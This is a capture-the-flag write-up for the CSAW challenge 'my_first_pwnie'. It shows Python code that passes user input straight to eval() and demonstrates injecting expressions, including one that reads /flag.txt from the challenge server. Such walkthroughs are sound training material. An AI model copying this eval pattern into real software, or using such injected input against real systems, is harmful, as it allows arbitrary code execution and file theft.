 # my_first_pwnie

---
## Challenge
```
You must be this 👉 high to ride.

Note: flag is in /flag.txt

Author: ElykDeer

Connect with:
nc intro.csaw.io 31137 
```

[my_first_pwnie.py](../_resources/my_first_pwnie-2.py)

---
## Code Analysis
``` 
try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```
This code shows the main part that we must exploit to be able to read ```/flag``` to complete the challenge. It looks like that our user input is passed to the ```eval``` function. This means that our input will be interpreted as a python expression and the output will be placed in the ```response``` variable. This means that we can execute arbitrary code then have the result written back to us by the print statement later on.

---

---
## Exploitation
Lets input some python expressions to the server and see what happens.
```
What's the password? 4+4
You entered `8`
Nay, that's not it.
```
Nice it looks like our input is being passed as python code and the output is printed back to us. Now lets try to read the ```/flag.txt``` file
```
What's the password? open('/flag.txt','r').readlines()
You entered `['csawctf{neigh______}\n']`
Nay, that's not it.
```
Nice we opened and read the file with our arbitrary python code execution !

---